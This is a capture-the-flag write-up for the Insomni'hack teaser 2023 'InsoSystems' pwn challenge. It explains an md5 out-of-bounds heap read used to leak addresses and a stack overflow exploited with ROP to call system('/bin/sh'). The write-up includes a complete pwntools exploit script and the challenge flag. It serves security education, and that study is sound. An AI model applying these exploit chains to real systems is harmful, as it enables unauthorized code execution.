

# [	Insomni'hack teaser 2023] InsoSystems

InsoSystems was a pwn challenge from Insomni'hack teaser 2023.

## TL;DR
Leak the base address of the binary with an md5 out of bounds read. Exploit a
buffer overflow using ROP to leak the address of the libc then ret2main. And
finally re-exploit this buffer overflow to call `system` and get a shell.



# Reverse-engineering


The binary first sets stdin/stdout/stderr as unbuffered. It then malloc a
function table containing 5 entries. And loop on getting an index from the user
input and call the corresponding function.

## `auth`
Here is the `auth` function :


It offers two authentication methods : using the clear password, or using the
hash.  
We don't know the content of the environment variables `PASSWORD` and
`PASSWORD_HASH` but since the function sets the global variable
`g_is_logged_in` at the beginning, we can bypass the auth by providing an
`auth_method` different from 1 and 2.

## `is_logged_in`


This function just prints if we are logged in or not.

## `upload_file`


There are two vulnerabilities in the function `upload_file`. The first one is an
out of bounds read : it computes the md5 sum of `filename_maxlen` bytes from the
buffer `filename`. `filename` is read from stdin in the function `read_buffer`. 


As you can see `read_buffer` reads **at most** `max_size` bytes and allocates a
buffer of the effective size of the user input. So if `filename_maxlen` is
greater than the size of the provided buffer, we can leak the content of the
heap.  
There is also a null byte overwrite but it will not be useful for us.

The second vulnerability in this function is a buffer overflow, during the call
to `read_file_content`.


```c
struct file_s
{
  char content[4096];
  int size;
};
```

This function reads at most `maxsize + 999` bytes from stdin into
`file->content` without taking into account the size of `file->content` which is
always 4096. Moreover, `file->size` is placed just after `file->content` so we
can overwrite it to get a relative write primitive as we control `file->size`
during the `memcpy`.

## `read_file`


Here we have the same vulnerability as in `upload_file` with the md5 sum, but is
harder to exploit because if the file does not exists the program exits with the
error message `Error reading file`.

# Exploit
## Leak exe base address

The binary is compiled with all the protections enabled.

I started to exploit the oob read to get some leaks from the heap.  
Remember the `upload_file` function.
```c
filename_maxlen = read_int(fd);
if ( filename_maxlen <= 0 )
exit_error("Couldn't read file name size");
filename = read_buffer(fd, filename_maxlen);
memset(filename_hash, 0, 0x21uLL);
md5_hex(filename, filename_maxlen, filename_hash);// oob read
```

If we provide a "big" integer as `filename_maxlen` (e.g. 0x28) but a small
buffer such as `abcd` the `md5_hex` function will read 0x28 bytes from heap and
produce a hash with them while the actual allocated buffer has a size of 0x5
(realloc allocated a chunk of 0x18 available bytes).

Here is the heap layout just before the call to `md5_hex`. `rdi` is `filename`.


So we can leak the base address of the binary one byte a time starting by
reading 0x28 bytes, then 0x27 and so on until 0x20 bytes. We start by reading
0x28 bytes because of the null byte overwrite at the end of the `read_buffer`
function. Each read will produce a hash, the path of the file. With 8 hashes we
just have to bruteforce one byte per hash.  

There follows the exploit code for the leak :
```py
"""
" leak exe
"""
hashes = []
for i in range(8):
    path = upload(0x20 + 8 - i, b"abcd", 1, b"x")
    hashes.append(path)

leak = b""
for target in hashes[::-1]:
    for bf in range(0x100):
        b = bytes([bf])
        h = hashlib.md5()
        h.update(b"abcd".ljust(0x18, b"\x00") + p64(0x21) + leak + b)
        if target == h.hexdigest().encode():
            leak += bytes([bf])
            break

exe.address = u64(leak) - 0x142b
print(f"exe @ {hex(exe.address)}")
```

## Leak libc base address and pop a shell !
We now have the base address of the binary. We also found a stack-based buffer
overflow. Let's exploit it to control `rip`.

The vulnerability is in `read_file_content` it allows us to write a buffer of
the size of our choice on the stack.

```c
do
{
  memset(s, 0, sizeof(s));
  v4 = read(0, s, 1000uLL);
  // no check on maxsize
  // if maxsize > 4096 -> stack buffer overflow
  // -> we can overwrite file->size which is just after file->content
  memcpy(&file->content[file->size], s, v4);
  file->size += v4;
}
while ( v4 > 0 && maxsize > file->size );
```

`file` is defined as is :
```c
struct file_s
{
  char content[4096];
  int size;
};
```

We have to send 4096 bytes then the offset (positive or negative :) ) of our
desired write, then pause, so that `read` will return and `file->size` gets
overwritten. And finally send our payload.


As seen in gdb, at the time of the `memcpy` the current frame saved `rip` is
located 0x38 bytes before our buffer. We have to overwrite `file->size` with
-0x38, then send our new `rip` value and fill the buffer until `file->size` and
overwrite it with a big value to exit the do-while :

```py
def rel_write(offset, data, pwned=False):
    if offset < 0:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  0x1004])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause()
        r.send(data.ljust(0x1000 - offset, b"A") + p32(0x133700)) # big value
        pause()
    else:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  offset + len(data)])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause() 
        r.send(data)
    if not pwned:
        msg = recv_msg()
        return msg["data"]
```

Once we control `rip` we can ROP to leak the libc base address, then ret2main,
and pop a shell.

I leaked the value of `free` in the GOT the get the libc base address.
```py
"""
" rop
"""
exe_info = exe.address + 0xe27
exe_main = exe.address + 0x1a33


print(f"bss @ {hex(exe.bss())}")
rop = ROP(exe)
rop.raw(rop.find_gadget(["ret"])) # movaps issue
rop.call(exe_info, [exe.got["free"]])
rop.call(exe_main)

leak = rel_write(-0x38, rop.chain())
leak = u64(leak.ljust(8, b"\x00"))

print(f"free @ {hex(leak)}")

libc.address = leak - libc.sym["free"]
print(f"libc @ {hex(libc.address)}")


rop = ROP(libc)
rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
rel_write(-0x38, rop.chain(), pwned=True)
# rel_write(0x1078, rop.chain(), pwned=True)
```

Note that I also tried to overwrite the return address of the `upload_file`
function at the offset 0x1078, it worked on local but not on the remote
challenge :/  
Bonus: I managed to leak a stack address with a bit of bruteforce (1/32)
by overwriting the null byte at the end of `filename_hash` using the relative
write but it was not useful for our exploit.

# Appendix
The full exploit :
```py
#!/usr/bin/env python3

from pwn import *
import random
import hashlib

VERBOSE = True

exe = ELF("./insosystems")

libc = None
if args.REMOTE:
    # libc = ELF("./libc.so")
    libc = ELF("docker/libc.so.6")
else:
    libc = ELF("/path/to/libc.so.6")

context.binary = exe
context.terminal = ["tmux", "new-window"]


def conn():
    if args.REMOTE:
        r = remote("insosystems.insomnihack.ch", 31337)
        # r = remote("127.0.0.1", 31337)
    else:
        r = process([exe.path])

    return r

def attach_gdb():
    if args.GDB:
        gdb.attach(r, gdbscript="""
source ~/.gdbinit-gef.py
pie break 0x13bf
c
        """)

AUTH = 0
IS_LOGGED = 1
UPLOAD = 2
READ_FILE = 3
EXIT = 4

def pause():
    if args.GDB:
        input("pause")
    else:
        time.sleep(2)

def f(data):
    ret = b"|"
    for f in data:
        if isinstance(f, bytes):
            ret += f
        else:
            ret += str(f).encode()
        ret += b"|"
    return ret

def recv_msg():
    r.recvuntil(b"|")
    code = int(r.recvuntil(b"|", drop=True))
    size = int(r.recvuntil(b"|", drop=True))
    data = r.recv(size)
    r.recvuntil(b"|")
    ret = {"code":code, "size":size, "data":data}
    if VERBOSE: print(ret)
    return ret

def auth():
    r.send(f([AUTH, 3]))
    pause()

def is_logged():
    r.send(f([IS_LOGGED]))
    return recv_msg()["data"] == b"You are logged in"

def upload(filename_len, filename, size, data):
    r.send(f([UPLOAD, filename_len, filename, size]) + data)
    return recv_msg()["data"]

def read_file(filename):
    r.send(f([READ_FILE, len(filename), filename]))
    return recv_msg()["data"]


def rel_write(offset, data, pwned=False):
    if offset < 0:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  0x1004])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause()
        r.send(data.ljust(0x1000 - offset, b"A") + p32(0x133700)) # big value
        pause()
    else:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  offset + len(data)])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause() 
        r.send(data)
    if not pwned:
        msg = recv_msg()
        return msg["data"]


def main():
    global r

    r = conn()
    attach_gdb()

    auth()
    assert is_logged()
    upload(4, b"toto", 4, b"hey")
    read_file(b"toto")


    """
    " leak exe
    """
    hashes = []
    for i in range(8):
        path = upload(0x20 + 8 - i, b"abcd", 1, b"x")
        hashes.append(path)

    leak = b""
    for target in hashes[::-1]:
        for bf in range(0x100):
            b = bytes([bf])
            h = hashlib.md5()
            h.update(b"abcd".ljust(0x18, b"\x00") + p64(0x21) + leak + b)
            if target == h.hexdigest().encode():
                leak += bytes([bf])
                break

    exe.address = u64(leak) - 0x142b
    print(f"exe @ {hex(exe.address)}")


    """
    " rop
    """
    exe_info = exe.address + 0xe27
    exe_main = exe.address + 0x1a33


    print(f"bss @ {hex(exe.bss())}")
    rop = ROP(exe)
    rop.raw(rop.find_gadget(["ret"])) # movaps issue
    rop.call(exe_info, [exe.got["free"]])
    # rop.raw(rop.find_gadget(["ret"])) # movaps issue
    rop.call(exe_main)

    leak = rel_write(-0x38, rop.chain())
    leak = u64(leak.ljust(8, b"\x00"))

    print(f"free @ {hex(leak)}")

    libc.address = leak - libc.sym["free"]
    print(f"libc @ {hex(libc.address)}")


    rop = ROP(libc)
    # rop.raw(rop.find_gadget(["ret"])) # movaps issue
    rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
    rel_write(-0x38, rop.chain(), pwned=True)
    # rel_write(0x1078, rop.chain(), pwned=True)

    """
    " leak stack
    """
    # leak = rel_write(0x1030, b"X") # remove null byte from filename_hash -> leak
    # if args.GDB:
        # leak = (u64(leak[33:].ljust(8, b"\x00")) << 8) | int(input("byte: "), 16)
    # else:
        # leak = (u64(leak[33:].ljust(8, b"\x00")) << 8) | (8 * random.randint(0, 256//8))
    # addr_buffer = leak - 0x11c8
    # print(f"buffer @ {hex(addr_buffer)}")


    r.interactive()


if __name__ == "__main__":
    main()


# INS{I_Don't_tRu5t_your_Find1nGs!}
```
